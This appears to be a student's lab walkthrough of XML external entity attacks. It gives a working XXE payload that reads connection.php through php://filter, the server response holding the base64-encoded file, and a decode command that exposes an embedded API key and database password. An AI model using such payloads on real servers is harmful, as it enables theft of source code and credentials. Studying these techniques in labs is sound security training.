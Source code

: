 This payload defines the`a0` entity as`DOS`, references it in`a1` multiple times, references`a1` in`a2`, and so on until the back-end server's memory runs out due to the self-reference loops. However,`this attack no longer works with modern web servers (e.g., Apache), as they protect against entity self-reference`. Try it against this exercise, and see if it works.

# Question
---
![Pasted image 20250217175259.png](../../../../IMAGES/Pasted%20image%2020250217175259.png)

We can do the following payload:

```xml
<!DOCTYPE email [
 <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=connection.php">
]>
```

It will output this:

```http
HTTP/1.1 200 OK

Date: Mon, 17 Feb 2025 22:59:25 GMT

Server: Apache/2.4.41 (Ubuntu)

Vary: Accept-Encoding

Content-Length: 344

Keep-Alive: timeout=5, max=100

Connection: Keep-Alive

Content-Type: text/html; charset=UTF-8



Check your email PD9waHAKCiRhcGlfa2V5ID0gIlVUTTFOak0wTW1SekoyZG1jVEl6TkQwd01YSm5aWGRtYzJSbUNnIjsKCnRyeSB7CgkkY29ubiA9IHBnX2Nvbm5lY3QoImhvc3Q9bG9jYWxob3N0IHBvcnQ9NTQzMiBkYm5hbWU9dXNlcnMgdXNlcj1wb3N0Z3JlcyBwYXNzd29yZD1pVWVyXnZkKGUxUGw5Iik7Cn0KCmNhdGNoICggZXhjZXB0aW9uICRlICkgewogCWVjaG8gJGUtPmdldE1lc3NhZ2UoKTsKfQoKPz4K for further instructions.

```

Now, we can decode the base64:

```bash
echo 'PD9waHAKCiRhcGlfa2V5ID0gIlVUTTFOak0wTW1SekoyZG1jVEl6TkQwd01YSm5aWGRtYzJSbUNnIjsKCnRyeSB7CgkkY29ubiA9IHBnX2Nvbm5lY3QoImhvc3Q9bG9jYWxob3N0IHBvcnQ9NTQzMiBkYm5hbWU9dXNlcnMgdXNlcj1wb3N0Z3JlcyBwYXNzd29yZD1pVWVyXnZkKGUxUGw5Iik7Cn0KCmNhdGNoICggZXhjZXB0aW9uICRlICkgewogCWVjaG8gJGUtPmdldE1lc3NhZ2UoKTsKfQoKPz4K' | base64 -d
```

